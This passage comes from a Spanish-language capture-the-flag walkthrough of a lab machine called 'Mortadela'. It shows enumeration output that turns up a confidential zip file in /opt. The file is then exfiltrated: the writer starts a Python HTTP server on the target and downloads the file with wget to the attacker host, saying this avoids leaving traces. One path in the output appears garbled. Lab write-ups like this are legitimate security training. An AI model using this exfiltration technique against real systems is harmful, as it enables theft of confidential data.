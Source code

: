 

Más información....

```shell
╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd
passwd file: /etc/passwd
passwd file: /usr/share/bash-completcat //ion/completions/passwd
passwd file: /usr/share/lintian/overrides/passwd
```

**¿Bingo?**

```shell
╔══════════╣ Unexpected in /opt (usually empty)
total 90880
drwxr-xr-x  2 root root     4096 abr  1 19:55 .
drwxr-xr-x 18 root root     4096 abr  1 17:41 ..
-rw-r--r--  1 root root 93052465 abr  1 19:51 muyconfidencial.zip

mortadela@mortadela:~$ cd /opt/
mortadela@mortadela:/opt$ ls
muyconfidencial.zip
mortadela@mortadela:/opt$ ls -la
total 90880
drwxr-xr-x  2 root root     4096 abr  1 19:55 .
drwxr-xr-x 18 root root     4096 abr  1 17:41 ..
-rw-r--r--  1 root root 93052465 abr  1 19:51 muyconfidencial.zip
mortadela@mortadela:/opt$ 
```

Continuaremos explorando este archivo para ver qué secretos guarda.


### Transferencia del archivo confidencial

Vamos a llevarla a nuestra máquina host. Tenemos un Apache, pero no queremos compartir esta información con nadie ni dejar tantos rastros. Utilizamos un servidor HTTP simple para transferir el archivo.

```shell
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Y desde nuestro host:

```shell
┌─[oscar@parrot]─[~/THL/mortadela]
└──╼ $ wget 10.0.2.15:8000/muyconfidencial.zip
--2024-07-15 18:07:03--  http://10.0.2.15:8000/muyconfidencial.zip
Conectando con 10.0.2.15:8000... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 93052465 (89M) [application/zip]
Grabando a: «muyconfidencial.zip»

muyconfidencial.zip                                             100%[=====================================================================================================================================================>]  88,74M  26,6MB/s    en 3,5s    

2024-07-15 18:07:07 (25,6 MB/s) - «muyconfidencial.zip» guardado [93052465/93052465]

┌─[oscar@parrot]─[~/THL/mortadela]
└──╼ $ ls
muyconfidencial.zip
┌─[oscar@parrot]─[~/THL/mortadela]
└──╼ $
```
